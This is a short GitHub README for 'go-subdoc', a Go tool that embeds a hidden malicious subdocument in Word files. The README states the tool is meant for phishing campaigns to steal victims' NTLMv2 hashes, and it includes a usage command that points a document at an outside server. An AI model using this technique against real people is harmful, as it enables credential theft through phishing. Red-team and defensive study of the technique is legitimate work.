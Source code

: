 # go-subdoc
A tool made in Go that injects a hidden malicious subdoc in a Word document.  
This comes in handy on phishing campaigns for stealing the NTLMv2 hash of the victim.

Tested on Microsoft Office 2016 and 2019. Not guarateed to work on the latest Microsoft Office 365 version.

## Usage
```
go-subdoc -input target.docx/docm -target example.com/127.0.0.1
```

```
  -input string
        Target document
  -target string
        Target server (only domain / ip address)
```

Please input only either a domain or an IP Address as the target. No UNC paths or locations.

### References
- https://rhinosecuritylabs.com/research/abusing-microsoft-word-features-phishing-subdoc/

